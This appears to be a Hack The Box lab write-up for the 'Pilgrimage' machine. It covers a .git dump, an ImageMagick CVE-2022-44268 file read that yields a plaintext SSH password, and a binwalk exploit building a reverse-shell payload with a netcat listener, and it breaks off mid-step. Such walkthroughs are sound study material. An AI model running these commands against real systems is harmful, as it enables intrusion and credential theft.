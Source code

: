 # Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit is scripted in rust. I will be using an explot scripted in python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)

- Identified Users
  - root
  - emily

- The code in `/register.php` contains:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c690079-74ee-4b7b-b598-9bdad2152018)

- Prepare a payload and read the file as done in the previous step. I had to modify the script as it was throwing an error. Now I get the output as hex.
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5bc11c30f2.png | tee data.hex
```
- Convert the received hex data as an image to string.
```
cat data.hex | xxd -r -p && echo ''
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf82acca-237f-434e-8797-cebf1f19f690)

- Credentials found: emily:abigchonkyboi123

### FootHold
```
ssh emily@10.10.11.219
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c917b15a-555d-4fc4-8dd2-b21d8c8be882)

### List Processes
```
ps -aux
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f693978e-2530-4cfd-97de-bc04979feabf)

- Contents of `/usr/sbin/malwarescan.sh`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c61faa6e-3264-4917-a728-9faef849e886)

- The bash script uses a command `inotifywait` to monitor a directory for newly created files and then checks if the content of those files contains certain blacklisted phrases using the `binwalk` tool.
- binwalk version 2.3.2
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/33e56901-7cee-48a7-9490-5a39a42abc38)

### Search Exploits
```
searchsploit binwalk
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/13ca1261-42a7-4550-859e-a0ded4e1810f)
```
searchsploit -m python/remote/51249.py
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ef00376b-efa4-4888-b85a-642cb5318652)

- Prepare Payload
```
python3 51249.py poison.png 10.10.14.61 4444 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/378aa7bf-e083-41ed-a953-0fa7154bb520)
- Rename Exploit
```
mv binwalk_exploit.png pwnstuff.png
```
- Start a netcat listener
```
rlwrap nc -nlvvp 4444
```

- Upload the payload file (binwalk_exploit.png) to the target. Since the bash script `malwarescan.sh` uses the binwalk tool to scan the images uploaded to the `/var/www/pilgrimage.htb/shrunk` directory, the payload needs to be placed here.
- 
